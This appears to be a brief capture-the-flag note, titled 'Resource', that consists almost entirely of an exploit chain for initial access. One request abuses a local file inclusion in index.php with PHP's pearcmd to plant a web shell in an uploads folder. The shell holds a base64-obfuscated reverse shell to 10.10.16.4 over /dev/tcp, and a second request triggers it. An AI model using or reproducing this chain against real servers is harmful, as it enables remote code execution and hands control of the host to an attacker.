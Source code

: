 # Resource

foothold:

    GET /index.php?page=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTYuNC8xNDUxNCAwPiYxJw=="));?>+/var/www/itrc/uploads/shell.php

    GET /uploads/shell.php

